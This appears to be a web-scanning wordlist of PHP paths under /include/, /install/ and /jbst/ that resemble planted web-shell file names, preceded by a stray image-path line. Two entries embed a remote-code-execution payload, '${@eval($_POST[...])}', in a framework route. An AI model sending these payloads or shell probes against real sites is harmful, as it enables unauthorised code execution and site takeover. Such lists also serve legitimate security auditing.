 /include/snxv.php
/include/tools.php
/include/tpllib/plus_ask.php
/include/uddatasql.php
/include/uploadye.php
/include/view.php
/include/xsvip.php
/include/ying.php
/index.php/module/action/param1/${@eval($_POST[c])}
/index.php/module/action/param1/${@eval($_POST[f])}
/install/1ndex.php
/install/ad_js.php
/install/av.php
/install/cache/x.php
/install/check_config.php
/install/config.inc.php
/install/door.php
/install/dxyylc/md5.php
/install/e7xue.php
/install/feedback.php
/install/filter.helpear.php
/install/inCahe.php
/install/index.php
/install/ixve.php
/install/laobiao.php
/install/log.php
/install/long.php
/install/mcds.php
/install/md5.php
/install/modurnlecscache.php
/install/mp.php
/install/mybak.php
/install/mytag_js.php
/install/rom2823.php
/install/sfmb.php
/install/shijian.php
/install/sky.php
/install/tools.php
/install/uddatasql.php
/install/uploadye.php
/install/view.php
/install/weki.php
/install/xsvip.php
/install/ying.php
/jbst/1ndex.php
/jbst/ad_js.php
/jbst/av.php
/jbst/cache/x.php
/jbst/config.inc.php
/jbst/config.php
/jbst/door.php
/jbst/dxyylc/md5.php
/jbst/e7xue.php
/jbst/feedback.php
/jbst/filter.helpear.php
/jbst/inCahe.php
/jbst/index.php
/jbst/ixve.php
/jbst/laobiao.php
/jbst/log.php
/jbst/long.php
/jbst/mcds.php
/jbst/modurnlecscache.php
/jbst/mp.php